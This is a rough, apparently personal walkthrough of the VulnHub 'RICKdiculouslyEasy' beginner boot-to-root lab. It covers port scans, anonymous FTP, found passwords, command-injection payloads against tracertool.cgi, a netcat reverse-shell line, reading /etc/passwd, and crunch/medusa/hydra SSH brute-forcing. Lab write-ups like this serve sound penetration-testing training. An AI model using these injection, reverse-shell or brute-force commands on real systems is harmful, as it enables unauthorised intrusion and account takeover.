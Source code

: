 # RICKdiculouslyEasy

### Description (from VulnHub)

```
Back to the Top
This is a fedora server vm, created with virtualbox.

It is a very simple Rick and Morty themed boot to root.

There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.

It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

* * *

## Finding the IP address of the Vuln Machine

`sudo arp-scan 10.0.0.0/24`
![67b70bab9487175b405a8df4964f230c.png](:/32a1b37e8b2c47cc8ed70ce1e649487f)

* * *

## Nmap scan results

```
# Nmap 7.80 scan initiated Wed Apr 21 11:03:27 2021 as: nmap -sC -sV -oA nmapscans/rid-easy 10.0.0.137
Nmap scan report for 10.0.0.137
Host is up (0.00046s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.0.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http       Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp open  http       Cockpit web service
|_http-title: Did not follow redirect to https://10.0.0.137:9090/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# cleNmap done at Wed Apr 21 11:04:03 2021 -- 1 IP address (1 host up) scanned in 36.53 seconds
```

* * *

### Checking out items from the NAMP scan

I check out the `https://10.0.0.137:9090/` from the nmap scan and I see
![9fdb9e6c2e1c9ecc7b54b5e4ac8a705a.png](:/28c5f1cc424b4876b5ee99bb7015065d)

`wget -m ftp://anonymous:anonymous@10.0.0.137`

![55cfceb9709e9b3c295a757a60605ed0.png](:/380d1b0562be4575a485325880fd6713)

2 Flags found for 20 points, 110 left to go

* * *

* * *

## Nikto scan results

`nikto -h 10.0.0.137:80`
![8d45ca4279d10fad5fe95ced8fa46027.png](:/e80a8432e21b47f8bb96a19a801c69a9)

* * *

Checking Out the /passwords/ dir I see:
![deb0205ef284a20a4256d50cf77e71da.png](:/583ddbbb5a134746a502bbbdd01d5b6d)

* * *

After Clicking on FLAG.txt I see:
![ae32654f6a0cb80d16e745a3cbf6face.png](:/a149221d696b42239fedfef08d456a1d)

* * *

Clicking on the passwords.html I see:
![b41ff538ef80253ff03956ab3da71b25.png](:/be61f44dc89b433995b0bdda425d1160)

**The message**

```
Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.
```

* * *

Looking at the source of `10.0.0.137/passwords/passwords.html` I see:
![b23836a0f0fc95e751a88844405a5f0b.png](:/3be9c5f2d8c34c6e8156c476ac324836)

* * *

Great as of right now we have a password `winter` and 30 points found 100 left to go!

Looking at `http://10.0.0.137/robots.txt` I see:
![b9ae2007ee33e48730a8a23b5f563e64.png](:/8279bcc2dac9489096951170c9a55b04)

Looks like another set of directories

```
/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*

```

`10.0.0.137/cgi-bin/root_shell.cgi`
![6e4d4cf4fb134b229f680fcea8b4a46b.png](:/c1d060c970384b449cadc580c55915b8)

`http://10.0.0.137/cgi-bin/tracertool.cgi`
![0fdef53696a69c907ed548e97828485f.png](:/9ac3412d75fd4194b063f8a52debd39d)

Looking over everything I found so far I decided to dig into `http://10.0.0.137/cgi-bin/tracertool.cgi` a little further.

After testing the input I releazed it was suscpetialbe to command injection

`1.1.1.1;uname -r` returned
4.11.8-300.fc26.x86_64

So lets see if I can get a shell, what would be great is if the vuln machine had netcat
So I decided to see if it did

`1.1.1.1;man nc`

![22ffedfbee6d6ef286dab3cea84ba1d0.png](:/9b996bd49cb441eba744c47f1d8e2a53)

python3 -m http.server 8000

curl http://127.0.0.1:8001/1.txt

:nl /etc/passwd

![104147d13afb9df9892c9fdcd1e186df.png](:/6a8dee2210714497bd66728abccf025e)

Great now we have some usernames
27 RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
28 Morty:x:1001:1001::/home/Morty:/bin/bash
29 Summer:x:1002:1002::/home/Summer:/bin/bash
30 apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin

ls /home/RickSanchez
ls /home/Morty

## FTP Login

After user creds Summer:winter I was able to get an FTP login
![d8bfab87683de11e48b63e91086e4310.png](:/33bd2ec1b02544c698bae44d6cef7f85)

## You can login using the sequence below

Ftp Command=`ftp 10.0.0.137`
Username=`Summer`
Password=`winter`

`wget -m ftp://anonymous:anonymous@10.0.0.137`

ls /home/RickSanchez
ls /home/Morty

;touch /usr/bin/hello.txt


;base64 --decode /tmp/open.sh > /tmp/resh.sh
;echo nc 10.0.0.186 7878 >> /tmp/resh.sh

[http://10.0.0.0.137/cgi-bin/tracertool.cgi?parameter=||whoami](http://10.0.0.0.137/cgi-bin/tracertool.cgi?

[http://10.0.0.137/cgi-bin/tracertool.cgi?ip=||whoami>/var/www/output.txt||](http://10.0.0.137/cgi-bin/tracertool.cgi?ip=%7C%7Cwhoami%3E/var/www/output.txt%7C%7C)

![b4ce62466cd63eb13e53ff64ef30ebb7.png](:/9cdc677064af42528e30c76533c43823)

![1ee1210b9c1009c089eaf8f4aee0fcb5.png](:/1db82e2b853c4415a3f1f55b438e93b0)

Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

20 points

Anyway. Here it is:

Here it is:

./safe 131333

![9cf1e862b5ba5b220de37040797c0ad7.png](:/a932636ee913450eb6a3bfa08c8ca6fb)


[Had to do some reading](https://www.rootinstall.com/tutorial/creating-custom-wordlists-using-crunch-utility/)
  
 1227  crunch 5 5 -t ,%the -o password.txt 
 1229  crunch 5 5 -t ,%The >> password.txt 
 1230  crunch 7 7 -t ,%Flesh >> password.txt 
 1231  crunch 7 7 -t ,%flesh >> password.txt 
 1232  crunch 9 9 -t ,%curtains >> password.txt 
 1233  crunch 10 10 -t ,%curtains >> password.txt 
 1234  crunch 10 10 -t ,%Curtains >> password.txt 


medusa -u RickSanchez -P password.txt -h 10.0.0.137 -M ssh -n 22222 -f

![a6ec42efae78cfd94d4437309b37f977.png](:/517dc2facf2a4a9b91a21237171ec7ea)
ACCOUNT FOUND: [ssh] Host: 10.0.0.137 User: RickSanchez Password: P7Curtains [SUCCESS]**strong text**

## !!Optional!!
I also used cupp.py to generate passwords. Really easy to use tool
[GitHub For Cupp.py](https://github.com/Mebus/cupp)

run ./cupp.py -i
![a05e99c0ef0e1de7016ed7f917a536b9.png](:/809a450dc68d431c89b94e25f145b714)

Used hyrdra install of medusa 
hydra -l RickSanchez -P the.txt 10.0.0.137 -s22222 ssh

![a6ec42efae78cfd94d4437309b37f977.png](:/517dc2facf2a4a9b91a21237171ec7ea)
ACCOUNT FOUND: [ssh] Host: 10.0.0.137 User: RickSanchez Password: P7Curtains [SUCCESS]

